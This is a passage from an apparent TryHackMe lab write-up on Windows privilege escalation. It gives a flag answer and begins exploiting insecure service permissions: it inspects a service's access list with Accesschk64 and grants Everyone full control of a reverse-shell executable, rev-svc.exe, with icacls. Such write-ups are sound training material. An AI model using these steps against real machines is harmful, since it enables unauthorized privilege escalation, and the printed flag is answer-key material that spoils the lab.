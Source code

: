 Answer : THM{QUOTES_EVERYWHERE}

### Get the flag on the Administrator's desktop.

For this question, we'll exploit "Insecure Service Permissions" .

Let's first use "Accesschk64.exe" from the sysinternals suite tu view the DACL (Discretionary Access Control Lists) on our thmservice :

![Permissions](/images/thm/windowsprivesc20/windowsprivesc20_13.png)
_Permissions_

We need to grant permission to our malicious executable :

```console
C:\Users\thm-unpriv\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\thm-unpriv\Desktop

09/03/2022  01:14 PM    <DIR>          .
09/03/2022  01:14 PM    <DIR>          ..
05/04/2022  08:15 AM             1,387 ProcessHacker.lnk
09/03/2022  01:14 PM            48,640 rev-svc.exe
09/03/2022  12:46 PM                18 start
09/03/2022  12:46 PM                18 stop
               4 File(s)         50,063 bytes
               2 Dir(s)  15,046,438,912 bytes free

C:\Users\thm-unpriv\Desktop>icacls rev-svc.exe /grant Everyone:F
processed file: rev-svc.exe
```
